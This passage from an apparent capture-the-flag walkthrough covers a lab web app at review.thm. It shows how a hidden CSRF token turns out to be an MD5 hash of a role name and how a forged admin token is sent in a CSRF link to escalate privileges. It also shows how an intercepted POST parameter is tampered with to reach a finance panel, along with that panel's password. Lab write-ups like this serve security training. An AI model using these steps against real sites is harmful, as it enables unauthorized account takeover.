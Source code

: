 On `http://review.thm/settings.php`, viewing the source showed a hidden promotion token:

```html
<input type="hidden" name="csrf_token_promote" value="ad148a3ca8bd0ef3b48c52454c493ec5">
```

### 3.2 Decode Token Pattern

Locally, you tested MD5 values:

```bash
echo -n 'mod' | md5sum
# ad148a3ca8bd0ef3b48c52454c493ec5

echo -n 'admin' | md5sum
# 21232f297a57a5a743894a0e4a801fc3
```

### 3.3 Send CSRF Promotion Link

From the moderator Chat (`/chat.php`) you sent a link that would promote a user using the admin MD5 token:

```
http://review.thm/promote_coadmin.php?username=mod&csrf_token_promote=21232f297a57a5a743894a0e4a801fc3
```

### 3.4 Re-login as Mod

You changed your password on the Settings page, logged out, then logged back in as `mod` using the new password. Your role escalated to **admin** and you saw:

```
Flag#2: THM{yyyyyyyyyyyyyyyy}
```

alongside admin menu options.

---

## 4. Phase 3 – Access Finance Panel

### 4.1 Intercept Dashboard Request

At `http://review.thm/dashboard.php`, you used your proxy/interceptor and clicked the Lottery feature. You modified the intercepted POST request:

```
feature=lottery.php  →  feature=finance.php
```

### 4.2 Authenticate

When prompted for the finance panel password, enter:

```
S60u}f5j
```
